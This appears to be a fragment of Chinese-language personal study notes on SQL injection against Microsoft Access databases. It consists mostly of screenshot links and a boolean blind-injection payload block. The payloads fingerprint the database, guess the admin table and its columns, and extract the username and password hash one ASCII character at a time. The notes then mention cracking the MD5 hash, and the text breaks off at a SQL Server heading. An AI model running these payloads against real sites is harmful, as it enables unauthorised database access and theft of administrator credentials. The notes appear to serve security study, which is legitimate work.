 **在select后面加上top 1空格后面跟上想要的值或者占位符**

![image-20230925203910028](C:\Users\27682\AppData\Roaming\Typora\typora-user-images\image-20230925203910028.png)

### 布尔盲注

![image-20230925205625838](C:\Users\27682\AppData\Roaming\Typora\typora-user-images\image-20230925205625838.png)

![image-20230925205642190](C:\Users\27682\AppData\Roaming\Typora\typora-user-images\image-20230925205642190.png)

![image-20230925205655233](C:\Users\27682\AppData\Roaming\Typora\typora-user-images\image-20230925205655233.png)

![image-20230925205705154](C:\Users\27682\AppData\Roaming\Typora\typora-user-images\image-20230925205705154.png)

![image-20230925205726424](C:\Users\27682\AppData\Roaming\Typora\typora-user-images\image-20230925205726424.png)

![image-20230925205756345](C:\Users\27682\AppData\Roaming\Typora\typora-user-images\image-20230925205756345.png)

![image-20230925205806951](C:\Users\27682\AppData\Roaming\Typora\typora-user-images\image-20230925205806951.png)

#### payload

```
判断数据库类型： and (select count(*) from msysobjects)>0 （返回错误则为access数据库）

猜解表名： and exists (select * from admin) (返回正确则存在admin表，返回错误则不存在)

猜解字段： and exists (select username from admin)（若无出错则证明存在username字段）

猜解用户名长度： and (select top 1 len(username) from admin)>0
（用数字替换0，直到返回非正常页面，数字为多少用户名长度就为多少）

猜解密码长度：and (select top 1 len(password) from admin)>0
（用数字替换0，直到返回非正常页面，数字为多少密码长度就为多少）

猜解用户名内容： and(select top 1 asc(mid(username,1,1))from admin)=97
（若返回正常，说明username的第一位内容是ASC码的97，也就是a，猜第二位把username,1,1改成username,2,1就可以了） and(select top 1 asc(mid(username,2,1))fromadmin)=100（若返回正常，说明username的第二位内容是ASC码的100，也就是d，以此类推，便可得到用户名）

猜解密码内容：and(select top 1 asc(mid(password,1,1))from admin)=52
（若返回正常，说明password的第一位内容是ASC码的52，也就是4，猜第二位把password,1,1改成
password,2,1就可以了）
and(select top 1 asc(mid(password,2,1))from admin)=54
（若返回正常，说明password的第二位内容是ASC码的54，也就是6,以此类推得到MD5密码，进行破解后获取
原始密码）
```

## sqlserver

#### 怎么判断

